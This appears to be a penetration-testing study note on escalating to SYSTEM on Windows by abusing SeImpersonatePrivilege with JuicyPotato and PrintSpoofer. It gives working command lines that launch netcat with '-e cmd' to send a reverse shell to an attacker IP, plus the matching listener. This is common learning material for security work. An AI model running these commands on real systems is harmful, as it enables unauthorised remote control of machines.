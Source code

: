 # SeImpersonatePrivilege and SeAssignPrimaryToken

## **Privilege Escalation via SeImpersonatePrivilege and SeAssignPrimaryToken**



#### **Understanding SeImpersonatePrivilege**

* **SeImpersonatePrivilege** is a Windows security setting granted by default to the local **Administrators** group and the **Local Service** account. It allows certain programs to impersonate users or specified accounts, enabling the program to execute tasks on behalf of those users.
* **Key Command:**
  * `whoami /priv` → If this command shows **SeImpersonatePrivilege** or **SeAssignPrimaryTokenPrivilege**, you can exploit it to impersonate a privileged account, such as `NT AUTHORITY\SYSTEM`.

## **Exploiting SeImpersonatePrivilege**

Several tools and techniques exploit **SeImpersonatePrivilege** and **SeAssignPrimaryTokenPrivilege** to escalate privileges to SYSTEM or Administrator. Here are two primary tools:

### **1. JuicyPotato Exploit**

**JuicyPotato** is an exploit tool that abuses **SeImpersonate** or **SeAssignPrimaryToken** privileges via **DCOM/NTLM reflection** attacks. It works on Windows versions up to Server 2016 and Windows 10 build 1809 (it does **not** work on Server 2019 or newer Windows 10 versions).

**Steps to Exploit Using JuicyPotato:**

1.  **Set up a Netcat listener** on your attacking machine:

    ```yaml
    nc -lnvp 8443
    ```
2.  **Run JuicyPotato** on the target:

    ```swift
    c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
    ```

    **Explanation:**

    * `-l` → Specifies the COM server listening port (53375 in this case).
    * `-p` → Program to launch (in this case, `cmd.exe`).
    * `-a` → Argument passed to `cmd.exe`. Here, it instructs Netcat to connect to the attacker's machine and provide a reverse shell.
    * `-t` → Specifies the `createprocess` call, using either **CreateProcessWithTokenW** or **CreateProcessAsUser** functions, which require **SeImpersonate** or **SeAssignPrimaryToken** privileges.

### **2. PrintSpoofer and RoguePotato**

On newer versions of Windows where JuicyPotato doesn't work (Windows 10 build 1809 and beyond, and Server 2019), tools like **PrintSpoofer** and **RoguePotato** can be used to exploit **SeImpersonatePrivilege**.

**PrintSpoofer:**

**PrintSpoofer** is a tool that abuses the **SeImpersonatePrivilege** through the print spooler service to escalate to SYSTEM.

**Steps to Exploit Using PrintSpoofer:**

1.  **Run PrintSpoofer**:

    ```swift
    c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
    ```

    **Explanation:**

    * `-c` → Specifies the command to execute once the privilege escalation is successful. In this case, it is running Netcat (`nc.exe`) to provide a reverse shell to the attacker's machine.

***

#### **Note:**

* **JuicyPotato** is effective on older Windows versions (Windows Server 2016 and below), but it no longer works on Windows Server 2019 and Windows 10 build 1809 onwards.
* For newer systems, alternatives like **RoguePotato** or **PrintSpoofer** are more appropriate for exploiting **SeImpersonatePrivilege**.
